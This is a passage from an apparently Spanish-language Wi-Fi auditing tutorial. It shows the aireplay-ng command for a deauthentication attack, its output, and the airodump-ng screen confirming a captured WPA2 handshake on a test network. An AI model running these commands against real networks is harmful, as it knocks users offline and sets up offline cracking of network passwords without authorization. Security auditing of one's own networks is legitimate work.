 En este punto, comenzaremos a visualizar clientes (STATION) conectados a esa red. Una vez detectado alguno, podremos intentar capturar el handshake.

#### Forzar desconexión (Deauth)

Desde otra terminal, lanzamos un ataque de desautenticación para forzar la reconexión del cliente, momento en el cual podremos capturar el `handshake`:

> EJEMPLO:

```shell
sudo aireplay-ng -0 9 -a <BSSID> -c <STATION> <INTERFACE_MONITOR>
```

Nos quedaria de esta forma el comando en mi caso:

```shell
sudo aireplay-ng -0 9 -a 01:9C:14:CO:29:R8 -c C5:64:F4:1A:78:K5 wlan0
```

Info:

```
05:08:40  Waiting for beacon frame (BSSID: 01:9C:14:CO:29:R8) on channel 10
05:08:40  Sending 64 directed DeAuth (code 7). STMAC: [C5:64:F4:1A:78:K5] [ 1|47 ACKs]
05:08:41  Sending 64 directed DeAuth (code 7). STMAC: [C5:64:F4:1A:78:K5] [ 0|55 ACKs]
05:08:41  Sending 64 directed DeAuth (code 7). STMAC: [C5:64:F4:1A:78:K5] [ 1|77 ACKs]
05:08:42  Sending 64 directed DeAuth (code 7). STMAC: [C5:64:F4:1A:78:K5] [ 0|71 ACKs]
05:08:43  Sending 64 directed DeAuth (code 7). STMAC: [C5:64:F4:1A:78:K5] [ 0|53 ACKs]
05:08:43  Sending 64 directed DeAuth (code 7). STMAC: [C5:64:F4:1A:78:K5] [ 0|56 ACKs]
05:08:44  Sending 64 directed DeAuth (code 7). STMAC: [C5:64:F4:1A:78:K5] [ 0|76 ACKs]
05:08:44  Sending 64 directed DeAuth (code 7). STMAC: [C5:64:F4:1A:78:K5] [ 0|73 ACKs]
05:08:45  Sending 64 directed DeAuth (code 7). STMAC: [C5:64:F4:1A:78:K5] [ 1|62 ACKs]
```

Repetimos este paso hasta que en la interfaz de `airodump-ng` aparezca el mensaje:

```
05:01:26  Created capture file "auditoria.cap".

 CH  6 ][ Elapsed: 3 mins ][ 2025-04-22 05:04 ][ WPA handshake: 01:9C:14:CO:29:R8                                                                            
 BSSID        PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                         
 01:9C:14:CO:29:R8  -54 100     1525      245    0   10  195   WPA2 CCMP   PSK  MIWIFI_test     
                                                              
 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes                                                                           
 01:9C:14:CO:29:R8  C5:64:F4:1A:78:K5  -30    1e- 1    276      318  EAPOL  
```

Especificamente:

```
WPA handshake: 01:9C:14:CO:29:R8
```

Esto confirma que el handshake se ha capturado correctamente.
